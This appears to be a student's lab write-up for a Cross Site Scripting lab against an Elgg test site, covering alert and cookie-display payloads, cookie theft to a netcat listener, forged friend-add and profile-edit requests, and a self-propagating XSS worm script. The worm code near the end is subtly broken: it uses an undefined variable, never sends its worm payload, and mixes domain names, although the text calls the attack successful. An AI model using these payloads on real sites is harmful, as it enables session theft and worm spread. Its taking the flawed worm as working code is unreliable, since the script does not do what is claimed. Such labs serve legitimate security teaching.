# Cross Site Scripting(XSS) Attack Lab
# Kade, Pitsch(t12r458)
# kadecarter82@gmail.com
# CSCI 476

# 03/20/2021

## Task 1: Posting a Malicious Message to Alert Window
For some reason i could not get the script to run in the About section
of the profile so i opted to put it into the description section of the profile and that worked.

### | Here we can see the script planted in the description of the profile.



### | Here we can see the alert window that pops up when we get to Alice's profile



## Task 2: Posting a Malicious Message to Display Cookies
After getting to this point i realized that the reason that the profile 'About Me' was not working is because i was using the visual editor and not just the plain text editor.



### | Here we can the alert window displays the users cookie



## Task 3: Stealing cookies from victim
### | We post the script into the attackers profile about section



### | We can see that we have successfully returned our victims cookie
To get the victims cookie we had to listen on a port in our terminal using netcat.



## Task 4.1: Make Samy and Victim Friends
This task was pretty straight forward with the provided code and burpsuite

### | Using Burpsuite and intercepting the request we can easily see that samy guid=59


After we see that Samy's guid is 59 things are pretty straight forward
Then we can set-up the url to be this ->
```var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=59" + ts + token + ts + token;``` in the code that was provided.

The only thing that threw me off is that the url needed two ```ts + token``` options for the URL to be accepted. I'm not sure if thats true but that is the only way i got it to work
#### | Just showing that Boby has no friends before visiting Samy's profile.



#### | After Boby visits Samy looks like he has a new friend that was not requested...spooky



### Task 4.2: Only provided Editor mode?
I do not believe that this would work because it encodes all the characters so the < and > would not be read as angle brackets anymore. And earlier i already discovered that this
will not work because i was trying to make the first task work w/o using the basic editor and it obviously did not work.


## Task 5.1: Modify the victims profile when they visit Samy's page
This portion just builds off the previous script

```var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=59" + ts + token + ts + token;```

```var content ="&description = Samy was Here" + "&accesslevel[description]=2";```

```var samyguid = 59;```


#### | Here we can see that Alice's profile is empty



#### | Here we can see that our script successfully worked 



### Task 5.2: Why do we need line (1)?
Line one just makes sure that Samy's code does not edit his own profile. Which in turn would ruin our attack because our own about page would get overwritten with the data we wanted to plant in other profiles.
After we removed that line we can see that this script affected our own profile. 

#### | Here we can see that removing that line it affected Samy's profile.



## Task 6: Writing a Self-Propagating XSS Worm
After filling in the missing portion for the provided code we were able to get a successful attack
#### | Here we can see the code in Samy's profile



#### | And here we can see the attack after logging into Alice's profile



I was not sure how to show that the attack was successful so i just made a alert window
pop up that signified that that user was logged in and their profile was compromised with
the worm


``` javascript
<script type="text/javascript" id="worm" >
    window.onload = function () {
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script > ";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    var uName = elgg.session.user.name;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var guid = "&guid=" + elgg.session.user.guid;
    var about = "&description = Samy was here" + wormCode + " &accesslevel[description]=2";
    var editURL = "http://www.labelgg.com/profile/" + uName + "/edit";
    var addContent = token + ts + inName + guid;

    if (elgg.session.user.guid != 59) {
        alert("Attack on: " + uName)
        Ajax = new XMLHttpRequest();
        Ajax.open("POST", editURL, true);
        Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(addContent);
    }
}
</script >

```
This code was made using the 2 previous methods, code provided and then getting information that was intercepted through burpsuite. Like ```content``` for example was made from studying the intercepted information from burpsuite and how that data was arranged.